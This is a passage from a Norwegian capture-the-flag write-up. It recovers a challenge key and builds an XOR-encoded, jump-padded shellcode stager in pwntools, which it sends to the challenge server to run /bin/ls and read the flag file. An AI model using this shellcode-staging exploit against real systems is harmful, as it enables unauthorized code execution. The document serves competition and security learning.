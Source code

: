 Vi kjører og får relativt kjapt ut de første 15 byte av keyen. Jeg gidder ikke
få ut den siste på annet vis, så bare gjenbruker koden fra forrige oppgave, hvor
jeg hopper over junk.

```sh
$ python3 find.py
Finding 0th
9f68b869a96e1eddcf7778853b307791
0d
...
Finding 14th
9d53e34cd082c08541783e121bb779fc
0dc373dc40125015d1e8ae828b27eb
Done. Last byte is hard to know, but we wont need that :) I set it to zero for you:
0dc373dc40125015d1e8ae828b27eb00
```

Så bruker vi koden fra forrige oppgave, litt endret, for å lage payloaden.

```py
import pickle
from pwn import *

context.log_level = 'warn'
context.arch = 'amd64'

insns = "6A00 5F 6A00 58 F8 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FF
C0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 14FF FFC0 50 50 5E 6A07 5A 6A22 
415A 6AFF 4158 6A00 4159 6A09 58 0F05 56 52 5E 5A 50 5E 6A00 58 0F05 FFD6".lower().strip().split()

def addjmp(code):
    bs = len(code)//2
    jmplen = 16 - bs - 2
    return code + f"eb{jmplen:02x}"


# the code which will read in more code
def stage0(key):
    out = b""
    for insn in insns:
        code = addjmp(insn)
        code = bytes.fromhex(code)

        code = bytes(c ^ k for c, k in zip(code, key))

        code += b"\x00" * (16 - len(code))

        out += code
    out += b"A" * (4096 - len(out))
    return out

key = bytes.fromhex("0dc373dc40125015d1e8ae828b27eb00")
BASE = stage0(key)


ls = BASE + asm(shellcraft.execve("/bin/ls"))
cat = BASE + asm(shellcraft.execve("/bin/cat", ["cat", "FLAG"]))

for sc in [ls, cat]:
    #io = process('../boot3')
    io = connect("3sat.utl", 2003)
    io.send(sc)
    io.recvuntil(b"Booting...\n")
```